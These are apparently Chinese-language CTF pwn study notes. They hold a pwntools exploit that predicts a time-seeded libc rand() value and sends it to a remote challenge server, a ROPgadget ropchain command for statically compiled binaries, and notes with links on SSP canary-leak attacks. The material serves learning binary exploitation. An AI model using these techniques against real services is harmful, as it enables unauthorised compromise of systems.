 ```jsx
r.send(payload)
r.interactive()
```

# 静态编译

```bash
ROPgadget --binary ./pwn --ropchain
```

# 其他题目

## 伪随机数

```python
from pwn import *
from ctypes import *

context.log_level = 'debug'
context(arch='amd64', os='linux')

libc = cdll.LoadLibrary('/home/kali/Desktop/glibc-all-in-one-master/libs/2.27-3ubuntu1_amd64/libc.so.6')

libc.srand(libc.time(0))

sh = remote("node4.buuoj.cn",27604)
#sh = process("./pwn5")
sh.recvuntil(b"number?\n")	
sh.sendline(str(libc.rand()).encode())
sh.recv(timeout =1)
sh.interactive()
```

## SSP攻击

[CTF-pwn 技术总结（3）](https://sf2333.github.io/2022/02/01/CTF-pwn-%E6%8A%80%E6%9C%AF%E6%80%BB%E7%BB%93%EF%BC%883%EF%BC%89/)

[SSP leak - 先知社区](https://xz.aliyun.com/t/12672)

```python
p &__libc_argv[0] #用于查找到__libc_argv[0]的地址，在ssp攻击中很常用
```

华为杯研究生比赛中遇到的一道题，关于ssp攻击

ssp攻击主要是利用了这个原理：在包含canary的二进制文件，如果检测到了canary被修改，那么会直接输出此二进制文件名

![Untitled](Stack%2095229ecbb2f1486a9533db3b1ce3a54d/Untitled%204.png)
